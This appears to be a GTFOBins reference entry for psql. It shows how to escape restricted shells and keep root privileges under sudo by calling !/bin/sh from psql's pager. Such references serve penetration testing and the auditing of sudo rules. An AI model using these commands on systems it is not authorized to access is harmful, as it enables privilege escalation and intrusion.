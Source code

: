 # GTFOBin: psql

This invokes the default pager, which is likely to be `less`, other functions may apply.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
psql
\?
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
psql
\?
!/bin/sh
```